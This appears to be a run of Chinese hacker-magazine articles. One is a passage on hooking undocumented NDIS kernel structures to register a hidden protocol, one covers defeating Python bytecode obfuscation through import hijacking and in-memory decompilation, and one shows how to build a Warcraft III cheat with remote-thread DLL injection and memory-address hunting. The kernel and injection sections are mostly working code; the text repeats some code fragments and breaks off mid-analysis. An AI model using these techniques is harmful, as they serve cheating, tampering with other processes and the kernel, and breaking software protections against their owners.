    KdPrint(("NdisReg @ DriverEntry : MmGetSystemRoutineAddress error!\n"));
}
// 得到地址后，直接硬编码得到 ndisProtocolList
// 以及 ndisProtocolListLock
*list_addr = *(ULONG*)(dereg_addr + 0x26);
*lock_addr = *(ULONG*)(dereg_addr + 0x18);
*pkg_addr  = *(ULONG*)(dereg_addr + 0x0b);
*pkg_addr -= 0x20;
KdPrint(("the list_addr is %08x, lock_addr is %08x, pkg_addr is %08x\n",
    *list_addr, *lock_addr, *pkg_addr));
```

其中 NdisDeregisterProtocol 的地址是无法用 MmGetSystemRoutine 来得到的，笔者这里用了一种方法：在代码中写上 `call NdisDeregisterProtocol` 语句，再用汇编中 call 指令会压入返回地址的特点来得到 `call NdisDeregisterProtocol` 的地址，进而根据 call 指令的结构得到 NdisDeregisterProtocol 的地址，这样可以避免在代码中硬编码查找该偏移。病毒经常使用该方法来得到当前的运行基址。关于 call 指令的结构，请读者查阅相关资料。结果如图 2、图 3 和图 4 所示。

接下来在 DriverEntry 得到 ndisWorkerQueue 的地址。关于得到 NDIS.SYS 中 DriverEntry 地址的方法，笔者这里用 `ZwCreateFile -> ObReferenceObjectByHandle` 得到 DEVICE_OBJECT 后，得到 DRIVER_OBJECT，最后再根据 `DRIVER_OBJECT.DriverInit` 就是 DriverEntry 的地址了，代码如下：

```c
VOID
GetNdisDriverEntry(PULONG routine_addr)
{
    UNICODE_STRING obj_name;
    HANDLE file_handle;
    PFILE_OBJECT file_obj;
    NTSTATUS ntStatus;
    PDEVICE_OBJECT target_dev;
    PDRIVER_OBJECT target_drv;
    IO_STATUS_BLOCK ioStatus;
    OBJECT_ATTRIBUTES objattr = {0};

    RtlInitUnicodeString(&obj_name, L"\\Device\\Ndis");
    InitializeObjectAttributes(&objattr, &obj_name,
        OBJ_KERNEL_HANDLE | OBJ_CASE_INSENSITIVE,
        NULL, NULL);

    ntStatus = ZwCreateFile(
        &file_handle,
        SYNCHRONIZE | FILE_ANY_ACCESS,
        &objattr,
        &ioStatus,
        NULL,
        FILE_ATTRIBUTE_NORMAL,
        FILE_SHARE_READ | FILE_SHARE_WRITE,
        FILE_OPEN,
        FILE_NON_DIRECTORY_FILE | FILE_RANDOM_ACCESS |
        FILE_SYNCHRONOUS_IO_NONALERT | FILE_NO_INTERMEDIATE_BUFFERING,
        NULL,
        0);

    if (!NT_SUCCESS(ntStatus)) {
        KdPrint(("NdisReg @ GetNdisDriverEntry : ZwCreateFile error!\n"));
        ZwClose(file_handle);
    }
}
```

```c
&ioStatus,
NULL,
FILE_ATTRIBUTE_NORMAL,
FILE_SHARE_READ|FILE_SHARE_WRITE,
FILE_OPEN,
FILE_NON_DIRECTORY_FILE|
FILE_RANDOM_ACCESS|
FILE_SYNCHRONOUS_IO_NONALERT|
FILE_NO_INTERMEDIATE_BUFFERING,
NULL,
0);

if (!NT_SUCCESS(ntStatus)) {
    KdPrint(("NdisReg @ GetNdisDriverEntry : ZwCreateFile error!\n"));
    ZwClose(file_handle);
}

ntStatus = ObReferenceObjectByHandle(
    file_handle,
    FILE_READ_DATA,
    NULL,
    KernelMode,
    (PVOID*)&file_obj,
    NULL);

if (!NT_SUCCESS(ntStatus)) {
    KdPrint(("NdisReg @ GetNdisDriverEntry : ObReferenceObjectByHandle error!\n"));
    ZwClose(file_handle);
    ObDereferenceObject(file_obj);
}

target_dev = file_obj->DeviceObject;
target_drv = target_dev->DriverObject;
*routine_addr = target_drv->DriverInit;
g_ndisDriverObject = target_drv;
```

```c
KdPrint(("NdisReg @ GetNdisDriverEntry : the routine_addr is %08x\n",
        *routine_addr));
}

VOID
get_queue_addr(PULONG queue_addr)
{
    ULONG routine_addr;
    GetNdisDriverEntry(&routine_addr);
    *queue_addr = *(ULONG *)(routine_addr + 0x1b4);
    KdPrint(("NdisReg @ DriverEntry : get_queue_addr queue_addr is %08x\n",
        *queue_addr));
}
```

```c
VOID
get_check_routine(PULONG check_addr)
{
    ULONG routine_addr;
    ULONG tmp;
    GetNdisReEnumerateProtocolBindings(&routine_addr);
    tmp = *(ULONG *)(routine_addr + 0x17);
    *check_addr = tmp + routine_addr + 0x16 + 0x5;
    KdPrint(("NdisReg @ DriverEntry : get_check_routine check_addr is %08x\n", *check_addr));
}
```

结果如图5和图6所示。


结果如图7和图8所示。


最后在 NdisReEnumerateProtocolBindings 中，可以得到 ndisCheckProtocolBindings 的地址。NdisReEnumerateProtocolBindings 取得地址的方法和 NdisDeregisterProtocol 取得地址的方法是一样的。代码如下：

```c
__declspec(naked)
VOID
GetNdisReEnumerateProtocolBindings(PULONG routine_addr)
{
    __asm {
        push ebp
        mov ebp, esp
        push eax
        push ebx
        call lab_1
        call NdisReEnumerateProtocolBindings
    lab_1:
        pop ebx
        mov eax, [ebx+1]
        add ebx, 5
        add ebx, eax
        mov eax, [ebx]
        mov ebx, routine_addr
        mov [ebx], eax
        pop ebx
        pop eax
        mov esp, ebp
        pop ebp
        ret 4
    }
}

VOID
get_check_routine(PULONG check_addr)
```

到这里所有的代码都已经给出了，其中笔者自己实现 NdisRegisterProtocol 操作的函数 fake_NdisRegisterProtocol，在上文分析 NdisRegisterProtocol 操作时已经给出了。下面给出运行结果，看一下我们的协议是否在 ndisProtocolList 中，结果如图9和图10所示。


可以发现，fake_NdisRegisterProtocol 中申请的空间 p_protocol 地址为 0x81941750，已经插入了 ndisProtocolList 中。

本文所有代码在 XPSP3+WDK 下编译成功，并在 XPSP3 成功运行。由于本文只是一份示例代码，功能有限，要做到通用还要读者们进行更改。希望本文起到抛砖引玉的作用，引出更精彩的思路，提出更通用、简单的方法。NDIS 文档资料较少，加之并不开源，所以行文之中纰漏难免，有些东西也没有解释清楚，希望大家批评指教。

> （编辑提醒：本文涉及的代码可以到黑防官方网站下载）

前置知识：Python

关键词：Python，bytecode，反汇编


# 针对 Python bytecode 混淆技术的内存级反汇编

图/文 CrazyRabbit

越来越多的商业、闭源 Python 应用开始涌现。一个明显的趋势是，这些应用的开发者投入了大量的精力来防止其软件的源代码被终端用户获得。开发者使用了各种代码混淆技术来阻止通用的 Python 反汇编技术。另一个同时出现的趋势是，Python 被越来越多地应用于“云端”，从而使得用户甚至无法获得存储在文件中的 bytecode。

本文提出了一种方法来扩展现有的 Python 反汇编技术。该方法无需读取标准的 Python bytecode 文件（.pyc/.pyo），而只需利用内存中存在的实例化的 Python 对象来重构源代码。本文还将讨论如何对付常见的混淆技术。

另外，我们经常忽略的一点是，Python 是一种跨平台语言，因此攻击者一旦发现 Python 程序的漏洞，将可以跨系统平台实施攻击。除了出于安全和反汇编的需要，很多其他领域也需要深入分析混淆后的应用程序代码。其中一个很重要的需求是识别闭源代码中是否包含了某些开源代码，即是否违反了某些许可证。

## 问题描述

很多时候，我们需要 Python 应用的源码来查找其安全漏洞。然而，现在很多商业和闭源 Python 应用使用了大量方法来阻止其他人获得其源码。

另外，随着 SaaS 的开发模式越来越流行，云技术和虚拟化技术使得用户无法获得本来可以用来反汇编的资源，如可执行文件。而要想越过远程服务器外围的防火墙来进行反汇编几乎是不可能的。因此，随着软件技术的发展，我们也需要一种新的反汇编技术。

最后，在 Python 层的反汇编而非更底层如 C、Assembly 等，本身是一个十分有趣的项目。虽然高级语言在很多方面提供了更好的安全性，但是其还远不能消除应用程序的逻辑漏洞。通常，直接 debug 这些程序的底层行为却不是找出应用层漏洞的最好方法。

## 现有 Python 反汇编技术

在提出一个更好的方法之前，我们首先需要看一下现有的方法以及提出的方法所引用的现有技术。Python 反汇编领域主要集中在将 bytecode（即 .pyc 和 .pyo）反汇编回 Python 源码（即 .py）。

目前，已经有很多免费和商业工具和服务来反汇编 bytecode，如 Unpyc、decompile.py、decompyle 和 depython（商业服务）。这些软件和服务针对的 Python 版本各异，同时，针对复杂应用的反汇编精确度也各异。一般来说，商业服务针对新版本 Python 提供了更好的支持。但是在很多情况下，免费软件所提供的结果已经足够用了。

这些软件和服务往往都采用类似的方法。大概来说，这些方法都以 bytecode（.pyc/.pyo）作为输入，静态地分析 bytecode 从而输出源代码。在通常情况下，这种方法已经足够了。但是，当应用程序由远程提供（如云计算）或 bytecode 经过了故意的混淆处理，那么上述方法将无法处理。

另外，我们再看一下标准的 Python 反汇编（dis）和 debugging 工具（pdb）。dis 模块可以将 Python 对象或 bytecode 反汇编成 Python 汇编语言，但是无法生成 Python 源码。pdb 模块是 Python 运行时调试的标准工具，但是该工具十分简单，而且只有在拥有 .py 文件时才能发挥最大的作用。因此，我们只能将 pdb 视为开发过程中的辅助工具。当只有 .pyc bytecode 时，pdb 的作用立即变得十分有限。这两个工具在本文提出的方法中的作用将在下文中讲述。

## Python 应用发布技术

随着越来越多的开发者开始使用 Python，有了很多可以很方便地将应用程序发布给终端用户的选择。由于 Python 是一种解释语言并需要自己的运行环境，因此终端用户需要满足很多依赖条件从而来执行 .py 和 .pyc 应用。虽然在 GNU/Linux 和 BSD 世界中，在标准操作系统中包含 Python 几乎成了一个事实，但 Microsoft Windows 中尚未包含 Python。另外，Python 还有版本和非标准库依赖的问题。总而言之，对于 Python 商业应用，能够将应用程序、依赖库和运行环境打包在一起，从而使得终端用户可以直接运行是非常重要的。

对于各种主流 OS，我们有3种主要的方法来满足上述需求。对于 Windows，我们可以使用 py2exe；对于 OS X，我们可以使用 py2app；对于 GNU/Linux 和 BSD，我们可以使用 cx_Freeze。虽然本文不再讨论各种方法的实现，但是由于这些工具被商业软件广泛地使用，我们在反汇编时最好也对其有所了解。这几个工具也是通过修改 Python 发布运行环境来实现混淆技术的基础。

最后，我们还需注意，随着应用一起发布的 Python 运行时环境也会有 bug。由于 Python 运行时环境是随应用程序一起发布的，因此这些运行时环境的版本很可能会过时，并且已发现的漏洞尚未被修补。即使系统中的 Python 运行时环境被打了补丁，随应用程序打包的环境却不一定。知道应用程序的 Python 版本对于找到攻击漏洞是十分有价值的。

## 混淆技术

目前，商业/闭源软件已经开发了很多混淆技术。这些技术从简单的到很复杂的都有。我们需要开发一种工具来解决那些很复杂的混淆技术带来的问题。虽然本文将单独地讨论各种混淆方法，但是在现实中我们通常会发现软件开发者会使用多种技术来有效地阻止逆向工程。

最简单的也是最常见的混淆技术是将软件编译成 Python 字节码。由于现有的 Python 反汇编工具已经能够很好地处理这类程序，我们将不再深入讨论。

### 1. 使用修改后的运行时环境

通过修改软件发行包中运行环境的属性（如版本号），并在软件中检查该版本号，是一种十分简单的混淆技术。通常，开发者同时还会大量减少发行包中标准库的数量。我们猜测，软件开发者的目的是想阻止他们的软件在除了他们自己的运行环境外的一切其他运行环境中运行，从而防止对他们软件的动态分析。如果我们想动态地分析该软件，那么我们就必须要知道该发行包所使用的 Python 运行时库。然后我们就可以从相同版本的 Python（如 2.4.x、2.5.x、2.6.x）中提取相同的标准库并放置在正确的位置，此时我们就可以动态地运行该软件了。

另外，当我们可以获得该软件的 .pyc 文件时，这种混淆方法也无法阻止我们使用传统的 Python 反汇编工具来静态地分析该软件。

### 2. 修改字节码的 magic 数

Python 作者故意没有为 .pyc/.pyo 中的 bytecode 写文档，从而使得在不同版本的 Python 中使用不同格式的 bytecode 不会破坏那些依赖 bytecode 格式的软件。虽然如此，我们还是知道 bytecode 的格式包含如下部分：

- 4 字节的 magic 数（后2个字节为 0x0D、0x0A）
- 4 字节的时间戳
- 一个 marshaled code object

Magic 数用于判断运行时环境是否就是用于运行该 bytecode 的环境，并随着运行时环境版本的变化而变化。对于 CPython，所有已知的值可以在运行时环境源码中的 import.c 文件顶部注释中找到。如果该运行时环境不对，那么将产生如下的错误信息：

```
RuntimeError: Bad magic number in .pyc file
```

如果修改软件发行包中的运行环境，使其版本到 magic 数的映射关系不同于标准 Python 版本的映射关系，并使用任意的非标准值作为 magic 数，那么任何标准版本的 Python 将拒绝执行该软件的 bytecode。这样也会影响传统反汇编工具的执行，因为这些工具需要正确的 bytecode 格式并使用 magic 数来确定 Python bytecode 的版本。如果这些工具遇到了未知的值，部分工具将停止工作。

对付这种混淆技术的一个简单方法是将 magic 数修改为某个标准值。如果 bytecode 的准确版本未知，那么由于我们只有不多的合法 magic 数，因此我们可以逐一尝试每个值。

### 3. 修改字节码文件的格式

如同可以修改运行环境的 magic 数一样，我们也可以通过修改 pyc/pyo 中代码对象的格式来实现混淆。这就意味着其他标准 Python 运行环境将无法正确地解释该 bytecode 文件，同时也意味着 Python 反汇编工具也无法工作。对 pyc 中的代码对象格式或对 pyc 本身结构修改的复杂程度，决定了我们是否能够将混淆后的格式转换回标准结构。

### 4. 字节码加密

字节码加密可以看作 marshal format change 的复杂变种。其关键区别在于我们更难找到加密后的 Python 运行环境中的密钥，如果我们无法找到，那么我们将无法做进一步分析。另外，类似地，加密后的字节码无法在标准的 Python 运行环境中运行，而且标准的反汇编工具也没有作用。

### 5. 源码混淆

另外一种混淆技术是对源代码本身进行处理。该方法不会修改字节码，但是会将源码修改成更复杂、难以跟踪分析、并具有相同功能的另一份源码。该方法的思想是即使你得到源码，你也很难理解。虽然该方法广泛应用于 JavaScript，在现实中几乎没有任何 Python 应用使用该方法。

### 6. 操作码重映射

操作码重映射是通过修改 Python 运行环境，随机打乱操作码与 Python 汇编语言助记符间的对应关系。这样一来，即使其他人得到了字节码并用反汇编工具反汇编得到了源码，该源码也是毫无意义的。在标准 Python 中，操作码的映射可以在 opcode.py 模块中找到。修改后的 Python 运行环境将删除该文件，从而使得依赖该模块的 dis 以及依赖于 dis 的反汇编工具将无法工作。

操作码重映射技术已经被很多软件采用，并且已被证明是一种很有效且简单的反逆向工程方法。另外，这种方法也通常会和上述的混淆技术联合使用，从而更有效地防止逆向工程。

本文的方法也主要是针对该方法而提出的。

## 一种新的 Python 逆向工程方法

上述的 Python 混淆技术（除了源码混淆外）已经能够很有效地对抗现有的反汇编工具。因此我们需要一种更有效的反汇编方法来对抗这些混淆技术。一种比较普适的方法是能够更好地处理混淆后的字节码，但是不倦地玩“猫捉老鼠”的游戏不是我们的最终目标。发现上述以及未发现的混淆技术所使用的共同技术，能够使我们在理论上设计一种通用的逆向工程方法。

现有反逆向工程方法所适用的一种方法是防止其应用软件被静态地分析。任何修改后的运行时环境自己都有解密其字节码的方法。也就是说，当程序运行在内存中时，任何保护方法都已经失效了。运行那些经过混淆处理的 Python 程序并动态地生成源码，是一种很通用的对抗所有反逆向工程的方法。具体的实现方法将在下文描述。作者同时实现了一个原型工具来证明该方法的可行性。

相同的方法已经在其他语言（如 C）的 debugger 中被使用来分析程序运行时的内部特征，但是我们需要记住的一点是本文的最终目的是得到源代码，而非仅仅动态地分析程序的运行时行为。

### 1. 获取进程控制权

为了分析程序运行时行为，很明显我们需要能够得到程序运行中的上下文。即使对于使用了反逆向工程的程序，我们发现要进入 Python 程序的主线程也是十分简单的。

当在代码中引用 Python 模块时，.py/.pyc/.pyo 等文件扩展名是不需要的；如果只有一个 .py/.pyc/.pyo 文件，那么该文件将会被使用；如果有多个文件，那么将检查字节码文件中的时间戳和 .py 文件的 mtime 看其是否相等，如果相等那么字节码文件将被使用，如果不等那么可能 .py 文件被修改过了，因此要使用该文件（参看 import.c 中的 check_compiled_module() 函数）。

最后，即使应用程序仅带了混淆后的 .pyc 字节码，只要重命名其中的某个文件，并放一个以原始 .pyc 文件名命名的 .py 文件在该目录下，那么最后该 .py 文件将被执行。当然，越早替换原文件我们就可以越早地获得控制权。另外一个要求是，我们得允许程序能够正常地执行。替换文件的内容可以是任意数据……

```python
import renamed_module

for x in dir(renamed_module):
    if x[:2] == "__":
        continue

    print "%s misdirecting %s.%s" % (x, renamed_module.__file__, x)
    exec("%s = renamed_module.%s" % (x, x))
```


由此可见，获得程序的执行控制权是很简单的。

### 2. 分析内存中的对象

上一步，我们已经获得了程序的控制权，现在可以进行分析了。在 Python 中，所有的方法和函数对象都有一个 func_code 对象，该对象包含了关于其操作和实现的重要数据。inspect 模块正是使用该对象来提供对象信息的。func_code 独有的 co_code 成员包含函数的字节码；该字节码可以被导出并用传统的方法来反汇编。

为了能够构建整个模块的内容，我们需要遍历各个函数并将其重构成一个整体。我们可以有两种不同的方法来实现该目的：基于内存的方法和基于文件系统的方法。

基于内存的方法以一个模块对象为输入，分析其属性，递归地分析每个属性直到叶子节点。在遍历的过程中，对每个方法和函数分析其 code 对象，从而基于内存分布结构来获得源码的层次结构。

基于文件系统的方法的不同之处在于我们遍历应用程序目录中的 Python 模块，每找到一个，我们就将其导入并使用上述方法来分析每个模块的属性。本方法是根据文件系统而非运行中的程序来重构源码的层次结构。图2展示了 Python 中各对象与其他对象之间的关系以及与其字节码间的关系。一般来说，该方法更有效，但是我们必须要能够得到程序的所有文件。


该方法能够对付除了操作码重映射之外的所有混淆技术。下一节我们将讨论如何在操作码重映射中获得有用的字节码。

### 3. 对付操作码重映射

当使用操作码重映射后，co_code 对象与磁盘上的文件内容一样被混淆了。虽然我们已经可以分析内存中的对象了，但是这并不能给我们很大的帮助，因为我们仍然无法知道字节码中的真正操作码。为了能够将这种字节码反汇编为源码，我们需要一种更复杂的方法。

在 Python 2.6.4 中，一共定义了119种操作码。为了成功地反汇编重映射后的字节码，我们需要推断出每个重映射后操作码的真实值。由于我们已经能够获得修改后的 Python 运行环境的控制权，故可以用其来协助解码工作。

经过操作码重映射处理后的运行环境仍然携带了该应用程序所依赖的 Python 标准库文件以及其他可能的文件。当这些文件从 .py 编译成 .pyc 时，其也使用了相同的混淆技术。这些文件的好处是，这些代码来源于我们已知的源代码。这就意味着，如果将相同的源码编译成两份字节码，一份正常的和一份混淆后的，我们可以对比两份字节码来找出操作码的对应关系。当然，单个模块不可能包含所有的 Python 操作码，因此我们需要分析多个模块，直到我们找到了所有的操作码，或者我们已经分析完了所有的标准库模块。

如果应用程序仅使用了这一种混淆技术，那么我们就可以直接从磁盘上静态地分析 .pyc 文件。但是如果该程序还使用了其他的混淆技术，那么我们就只能动态地来进行分析。

对由相同源码编译成的两份字节码进行对比分析是很简单的，下述简化的方法必须被执行两次：一次在标准运行环境中，另一次在修改后的运行环境中。

- 1. 导入标准库模块。
- 2. 通过 dir() 函数获得一个包含函数/方法的有序链表（generator）。
- 3. 对每个函数的 co_code 导出字节码。
- 4. 根据 dir() 列表中的顺序将函数的字节码连在一起。

为了与正常文件区分，我们将上述连接在一起而形成的函数字节码存入 .pyb 文件。

一旦我们两个 .pyb 都有了，我们就可以简单地一个字节一个字节地对比。由于该软件仅将操作码的值重映射了，如果我们发现两个字节相同，可以认为这两个字节是某个操作码的参数；如果两个字节不同，可以认为这是一个操作码的重映射。图3是一个简单的例子来解释这个。需要注意的问题是如果仅对一个子集的操作码进行了重映射，那么某些操作码在标准…子集的操作码进行了重映射，那么某些操作码在标准模块和混淆后的模块中有相同的值。在现实中，我们可以很容易地解决该问题。

以下述 Python 表达式为例：

```python
print "bugs"
```

在标准 Python 中，该表达式被编译为如下的 Python 汇编指令：

```text
0   LOAD_CONST     0   ('bugs')
3   PRINT_ITEM
4   PRINT_NEWLINE
5   LOAD_CONST     1   (None)
8   RETURN_VALUE
```

这些指令依次变为如下字节码：

```text
0x64, 0x0, 0x0, 0x47, 0x48, 0x64, 0x1, 0x0, 0x53
```

使用操作码重映射技术后编译得到的字节码为：

```text
0x28, 0x0, 0x0, 0x19, 0x2e, 0x28, 0x1, 0x0, 0x12
```

现在对这两个字节流逐字节对比：

```text
LOAD_CONST     0x64 -> 0x28
[ARG]          0x0
[ARG]          0x0
PRINT_ITEM     0x47 -> 0x19
PRINT_NEWLINE  0x48 -> 0x2e
LOAD_CONST     0x64 -> 0x28
[ARG]          0x1
[ARG]          0x0
RETURN_VALUE   0x53 -> 0x12
```

图 3 解码混淆后操作码的例子

一旦一个新的操作码值的映射被创建了，我们就创建一个新的 `opcode.py` 文件，现在就可以反汇编 `co_code` 对象中混淆后的字节码了。

# 云中逆向工程

近年来，软件即服务的模式已经越来越流行。名词“云”也越来越多地被用来描述大量系统和服务来提供该软件。本文仅讨论这种模式对于逆向工程的影响，而不会涉及其原理等。

随着用户和软件分离的趋势越来越明显，我们不难想象某一天用户将无法获得其所使用的应用文件。到了这一步，传统的逆向工程技术将失效，并且要想了解应用的内部机制就可能通过黑盒 Web 测试。然而，我们仍然可以通过从内存中得到一个对象从而得到源码。在此情况下，基于内存的方法就比基于文件系统的方法更有效了。

- 前置知识：VC
- 关键词：外挂、魔兽争霸、注入

# 一个魔兽争霸外挂的实现


图/文 stormxp

DLL 注入是一个很强大的技术，它可以在操作系统应用层突破进程间的限制，把自己的代码注入其他进程中，从而操作目标进程的行为。DLL 注入的一个很重要的应用是游戏外挂。……本文就以这个程序为基础介绍一下自己写外挂的心得。

善于写出更强大的外挂。本文用到的工具有：逆向分析工具 Ollydbg，内存数据修改工具 Cheat Engine，集成开发环境 VC++6.0。

## DLL 注入

由于本文的读者并不一定看过去年笔者的那篇文章，所以这里简要介绍一下该技术的主要实现步骤，至于详细实现可以参考源代码。……在函数一开始是一段汇编代码，这是远程线程的代码，在本程序运行时是不执行的。

跳过这段代码是一些 C 代码，这些 C 代码的作用是通过创建一个远程线程，把上面那些汇编代码插入到目标游戏进程中。汇编代码如下：

```asm
_asm
{
    // 第一部分给变量占位
    // 给 LoadLibrary 函数地址占位
LoadLibraryAddr:
    nop
    nop
    nop
    nop
    // 给动态链接库名占位
LibraryName:
    nop
    nop
    nop
    nop
    nop
    nop
    nop
    nop
    nop

    // 第二部分实现地址重定位，ebx 保存差值
    call relocat
relocat:
    pop ebx
    sub ebx, offset relocat
    // 第三部分调用 LoadLibrary
    // 压入 LoadLibrary 参数（动态链接库名）
    mov eax, ebx
    add eax, offset LibraryName
    push eax
    // Call 函数地址
    mov eax, ebx
    add eax, offset LoadLibraryAddr
    mov eax, [eax]
    call eax
    ret
}
```

汇编代码的主要功能是调用函数 `LoadLibrary` 导入工程 DLL 编译生成的 DLL 文件。由于地址重定位、变量的保存等原因，此处只能用汇编指令来实现。该段代码分为三部分，首先是一堆 `nop` 指令，作用是为第三部分用到的变量占位。此部分在编译时，一个 `nop` 指令将被编译成一个字节的数据 `90` 存放在这段代码中。`LoadLibrary` 的地址占四个字节，所以用四个 `nop` 指令为其占位。注意，这里只起到一个占位的作用，当这段汇编代码注入到目标进程后，还要对这四个字节的数据进行修正，使其存放真正的 `LoadLibrary` 地址。动态链接库名也是如此。第二部分的作用是为地址重定位获得汇编代码在注入进程与被注入进程之间的地址差值，这个差值存放在寄存器 `ebx` 中。关于地址重定位的原理，笔者在去年那篇文章以及 2010 年第十一期发表的《感染 exe 文件的病毒原理与实现》中做了详细的解释。第三部分的作用是调用函数 `LoadLibrary`。

这部分又分两步，第一步把动态链接库名压入栈中，第二步 `call` 函数地址。注意，所有对第一部分中变量的访问都要加上地址差以实现地址重定位，也就是加上第二部分中得到的 `ebx` 中的值。这一段汇编指令被注入目标进程后，就会把另一个工程编译生成的 `Dll.dll` 文件导入到目标进程的地址空间中。

C 代码的第一步是通过进程名获取进程句柄。魔兽争霸运行时的进程名为“War3.exe”，程序通过枚举系统里的所有进程得到游戏进程的 ID，再通过 `OpenProcess` 得到游戏进程句柄。第二步是用函数 `VirtualAllocEx` 在游戏进程中申请远程线程的代码空间。第三步是用函数 `WriteProcessMemory` 向游戏进程复制远程线程的代码，也就是把上面那些汇编指令复制到游戏进程的地址空间中去。第四步是修正远程线程的变量值，就是把那些用于占位的 `90` 修改为正确的值，同样是用函数 `WriteProcessMemory`。有人可能会问，为什么非得用 `nop` 指令来占位，过后再去修改呢？写代码时直接写正确的值多好啊。笔者也曾经想过这样实现，但在 C++ 中嵌入汇编时并不允许汇编代码在代码区中声明数据，所以只能用代码中的这个方法。至于用什么指令来占位，这就没有限定了，但要注意选用的指令被编译成十六进制码后占几个字节。最后一步是调用函数 `CreateRemoteThread` 创建远程线程。到此为止，那段汇编代码就已经存在于游戏进程中，并开始运行了。

## 搜索游戏存放金钱的内存地址

在游戏外挂开发过程中，逆向分析是极其关键的一步，其作用是分析游戏运行时关键数据及关键代码所在的内存地址，以便于我们的外挂程序进行修改。分析过程非常繁琐，需要分析者有耐心且有一定的逆向分析经验。这里就介绍一下魔兽争霸游戏的逆向分析过程。

第一步要做的是用工具 Cheat Engine 找出游戏中用于存放金钱的内存地址。首先打开魔兽争霸“War3.exe”，并新建一个单机游戏，在游戏开始后打开 Cheat Engine。Cheat Engine 的界面如图所示。

首先点击打开进程按钮，并在弹出的对话框中选择魔兽争霸的进程“War3.exe”，点击 Open 按钮，此时对话框关闭并回到如图 1 所示的界面。第一种搜索思路是搜索精确值，即搜索类型选 `Exact Value`，搜索值中输入游戏中当前的金钱值，然后点击首次搜索按钮，此时会在左侧的窗口中列出许多满足条件的地址，等到游戏中金钱值发生变化后，再在搜索值中输入新的金钱值，点击再次搜索按钮，经过多次筛选，最终得出存放金钱值的内存地址。如果读者去试一下的话就会发现，当你点击再次搜索按钮时就什么也找不到了，即这个方法并不能得出正确的内存地址。之所以失败是因为游戏在保存金钱值时并不是直接把金钱值放在内存中，而是把金钱值经过了一些变换后再进行存储，这样做可能是出于游戏读取数据的需要，也可能是为了防止游戏的关键数据被搜索跟踪。


图 1

作为一名游戏玩家，我们并不知道游戏是用何种变换对金钱值进行了处理，但有一点可以肯定，如果游戏中的金钱值不变，内存中存储的变换后的那个值也一定不会变；如果金钱值改变了，这个值也一定会改变。基于这个思路我们可以根据金钱值的变化与否来搜索这个内存地址。重新打开 Cheat Engine，并打开游戏进程“War3.exe”。在搜索类型中选择 `Unknown initial value`（不知道初始值），点击首次搜索按钮。切换到游戏中改变金钱值，再在搜索类型中选择 `Changed value`（改变的值），选择再次搜索按钮，此时左侧对话框中列出许多内存地址。切换到游戏中进行一些操作，但不要改变金钱值。切换到 Cheat Engine，在搜索类型中选择 `Unchanged value`（没有改变的值），点击再次搜索按钮，此时左侧对话框中的地址数量会减少。如此反复直到左侧对话框中只剩下一个地址，这个地址就是存放金钱的内存地址。这时你会发现游戏中的金钱值乘以 10 就是存放在内存中的值。

## 找出游戏数据基址

得到金钱值的地址后，我们就可以用 Cheat Engine 来修改这个地址中的值来达到修改游戏金钱值的目的，但当你重新运行游戏的话，会发现这个地址中存放的值已经不再是金钱值了。

修改这个地址的值，很明显不会达到修改游戏金钱的目的。接下来要做的就是对游戏进行逆向分析，通过这个地址得到游戏的数据基址。何为数据基址？根据游戏开发的原理，在游戏代码区中都会存在一个固定的内存地址，这个地址不会随游戏的运行环境的变化而变化。游戏在运行时，可以通过对这个地址进行一些固定的变换得到游戏中某个数值（如金钱值）。如果我们得到这个值，并且知道变换法则，就可以得到存放金钱值的地址。由于基址不会变，变换法则也是固定的，所以通过这种方法得到的金钱值地址虽然每次都不一样，但都是正确的。

首先运行游戏，按上一节的方法得到存放游戏金钱值的地址，笔者得到的地址为 `07B30190`。打开 Ollydbg，点击文件 > 附加，选择游戏进程，并点击附加。运行起来后，在最下面的命令对话框中输入 `db 07B30190`，按回车键后，在数据窗口中就会列出地址为 `07B30190` 处的值。在这个位置点右键 > 断点 > 内存写入，即下内存写入断点，这样当游戏修改这个内存的值时，Ollydbg 就会在修改这个值的代码处中断。切换到游戏中，当金钱值发生改变时，Ollydbg 发生了中断，删除内存写入断点。现在分析发生中断地方的代码，代码为：

```asm
6F088E00  |  8950 78          MOV DWORD PTR DS:[EAX+78],EDX
```

根据这行代码我们可以得到 `EAX+78` 是游戏金钱值的地址，即 `EAX` 的值为 `07B30190-78=07B30118`，那么 `EAX` 的值是从哪里来的呢？向上查找修改 `EAX` 的代码，最近的代码如下：

```asm
6F088DE0  |>  8B56 0C        MOV EDX,DWORD PTR DS:[ESI+C]
6F088DE3  |>  8B54C2 04      MOV EDX,DWORD PTR DS:[EDX+EAX*8+4]
6F088DE7  |.  8B42 18        MOV EAX,DWORD PTR DS:[EDX+18]
6F088DEA  |.  2B41 0C        SUB EAX,DWORD PTR DS:[ECX+C]
6F088DED  |.  F7D8           NEG EAX
6F088DEF  |.  1BC0           SBB EAX,EAX
6F088DF1  |.  F7D0           NOT EAX
6F088DF3  |.  23C2           AND EAX,EDX
```

上面八行代码是数据变换的关键代码，先看后三行，`SBB EAX,EAX` 相当于把 `EAX` 的值清空，`NOT EAX` 把 `EAX` 的每一位置为 1，最后一行 `EAX` 与 `EDX` 取并，这三行作用相当于把 `EDX` 的值赋给 `EAX`，现在的任务就是分析 `EDX` 从何而来。上面代码第二行是一句关键代码，有逆向分析经验的人都知道，`[EDX+EAX*8+4]` 对应到高级语言里是通过下标对数组取值的操作，其中 `EDX` 是数组基址，`EAX` 为数组下标。通过这句话我们可以推测，代码运行到这一句时，`EDX` 中存放的是游戏数据数组的基址。

在这一行下断点，运行游戏，游戏会重新中断在这一行。此时查看寄存器窗口，得到 `EDX` 的值为 `0F880010`。在该值上点右键 -> 数据窗口中跟随，此时数据窗口中显示出了地址为 `0F880010` 处的数据。如图 2 所示。

| 地址 | 数据 |
|---|---|
| 0F880010 | FE FF FF FF 18 00 B1 07 FE FF FF FF 98 00 B3 07 |
| 0F880020 | FE FF FF FF 18 01 B3 07 FE FF FF FF 98 01 B3 07 |
| 0F880030 | FE FF FF FF 18 02 B3 07 FE FF FF FF 98 02 B3 07 |
| ... | ... |

图 2

这些数据有相同的格式：`FE FF FF FF XX XX XX 07`，我们可以断定这里存放着游戏中关键数据的地址。第二行的第 5 到第 8 个字节转化为正常字节序后为 `07B30118`，正好是上面我们要得到的 `EAX` 的值。这意味着，只要我们得到了 `EDX` 的值，然后加上 `14H` 的偏移，就可以得到 `EAX` 的值，即真正存放金钱值的地址为：`[EDX+14]+78`。现在的任务为跟踪 `EDX` 的来源。

